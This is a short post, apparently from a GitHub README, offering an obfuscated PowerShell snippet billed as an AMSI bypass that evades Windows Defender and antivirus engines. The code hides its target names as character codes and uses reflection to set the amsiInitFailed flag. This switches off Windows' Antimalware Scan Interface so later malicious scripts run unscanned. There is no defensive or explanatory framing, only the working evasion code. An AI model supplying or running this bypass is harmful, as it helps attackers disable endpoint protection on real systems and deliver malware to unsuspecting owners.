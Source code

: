 This is an advanced ASMI bypass that currently isn't picked up by Windows defender or any of the anti virus softwares on VirusTotal.

```powershell
$e=[Ref].('Assem'+'bly').GetType(([string]::Join('', [char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))))
$n='Non'+'Public'
$s='Static'
$f=$e.GetField(([string]::Join('', [char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),($n+','+$s))
$t=[type[]]@([object],[bool])
$m=$f.GetType().GetMethod('Set'+'Value', $t)
$m.Invoke($f, @($null, $true))
```
